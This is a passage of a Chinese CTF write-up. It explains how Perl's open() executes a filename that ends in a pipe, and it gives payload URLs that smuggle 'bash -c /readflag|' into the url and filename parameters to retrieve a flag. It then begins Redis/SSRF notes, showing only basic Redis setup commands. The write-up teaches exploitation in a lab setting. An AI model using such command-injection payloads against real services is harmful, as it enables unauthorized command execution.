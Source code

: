 可以看到有一个flag，和一个readflag，都是我们很想要的

（GET 参数后面直接接目录，在Linux中用于获取当前目录内容并以XML格式（也可能是html，不太看得懂）打印出来）

所以我们直接GET /flag肯定是不行的（实验过了确实不行）

主要的知识点：perl函数看到要打开的文件名中如果以管道符（键盘上那个竖杠|）结尾，就会中断原有打开文件操作，并且把这个文件名当作一个命令来执行，并且将命令的执行结果作为这个文件的内容写入。这个命令的执行权限是当前的登录者。如果你执行这个命令，你会看到perl程序运行的结果。

所以这把GET函数就是关键的发力点，因此我们要构造这样一个payload：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=file:bash%20-c%20/readflag|

把url的内容和filename设置成一样的，因为有些 Web 后端会先用 -e（exists，是否存在）判断你传的文件名是否真的存在，才继续 open 操作，因此我们要创建一个一模一样的文件。

后面正常用管道截获这个流程，写到自己想要的文件里就可以了：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=cangxue

访问：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/sandbox/50d5f583d8a911dde39156ba3f03c3d5/cangxue

就能得到flag：

flag{bf6b30a3-6571-4641-9f4e-a3f52440cee5}

# 紧集停止，学习一下Redis的渗透&SSRF的利用

文章链接：https://blog.csdn.net/weixin_53912233/article/details/136035252?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522b20f3779b132466f7d162ce86c1b8d23%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=b20f3779b132466f7d162ce86c1b8d23&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-136035252-null-null.142^v102^pc_search_result_base6&utm_term=redis%20ssrf&spm=1018.2226.3001.4187


工具安装地址：（kali默认带了）
`http://download.redis.io/redis-stable.tar.gz`

运行redis服务器：

1. 安装redis-server

```bash
sudo apt install redis-server
```

2. 启动Redis服务

```bash
sudo systemctl start redis-server
sudo systemctl enable redis-server #设置开机自启动
sudo systemctl status redis-server #检查Redis服务状态
```

3. 本机连接Redis

```bash
redis-cli
```
